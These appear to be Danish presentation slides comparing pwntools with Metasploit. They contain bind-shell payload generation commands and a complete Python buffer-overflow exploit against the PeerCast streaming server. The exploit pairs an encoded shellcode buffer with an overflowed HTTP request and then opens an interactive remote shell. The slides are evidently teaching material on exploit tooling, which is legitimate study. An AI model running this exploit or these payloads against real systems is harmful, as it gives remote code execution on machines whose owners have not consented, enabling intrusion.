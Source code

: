 pwntools - Hvorfor ikke Metasploit?
-----------------------------------

[source,sh]
------------------------------------------------
vagrant@localhost:~$ time shellcraft -f r amd64.linux.bindsh 7777 >/dev/null
 
 real    0m0.687s
 user    0m0.241s
 sys     0m0.320s
vagrant@localhost:~$ time msfvenom -p linux/x64/shell_bind_tcp LPORT=7777 >/dev/null 2>&1

 real    0m6.595s
 user    0m1.928s
 sys     0m4.146s
------------------------------------------------

pwntools - Hvorfor ikke Metasploit?
-----------------------------------

[source,sh]
------------------------------------------------
vagrant@localhost:~$ find .repositories/metasploit-framework/modules/exploits/linux -name '*.rb' | xargs wc -l | sort -nr | tail -n 1
    67 .repositories/metasploit-framework/modules/exploits/linux/http/peercast_url.rb
------------------------------------------------

pwntools - Hvorfor ikke Metasploit?
-----------------------------------

[source,python]
------------------------------------------------
#!/usr/bin/env python2

from pwn import *
import sys

#Generated with:
#shellcraft i386.linux.findpeersh | msfvenom --encoder x86/shikata_ga_nai --bad-chars '\x00\x0a\x0d\x20\x2f\x3d\x3b' --arch x86 --platform linux --format python
buf =  ""
buf += "\xbd\xf4\x6e\x99\x72\xd9\xe8\xd9\x74\x24\xf4\x5e\x2b"
buf += "\xc9\xb1\x10\x83\xee\xfc\x31\x6e\x10\x03\x6e\x10\x16"
buf += "\x9b\xf3\x8d\xbc\x63\x8d\x97\x1b\x32\xe7\x31\xc3\x8c"
buf += "\x7a\xf1\xd7\xf0\xef\x0e\x77\x3c\x6f\x8b\xb7\xdf\x2a"
buf += "\xe1\xda\xa9\x38\x63\x27\xf3\xf7\x1e\x18\x5b\xc5\x5f"
buf += "\x13\xa3\xbf\x37\xb3\x7c\x6f\xe7\x30\xeb\x40\x95\xdf"
buf += "\x85\x17\xba\x2e\x93\x42\x36\x08\xba\x5e\xc8"

r = remote(sys.argv[1], 80)
r.send('GET /stream/?' + 'A' * 780 + p32(0x080922f7) + buf + '\r\n\r\n')
r.interactive()
------------------------------------------------

pwntools
--------

Intro tid
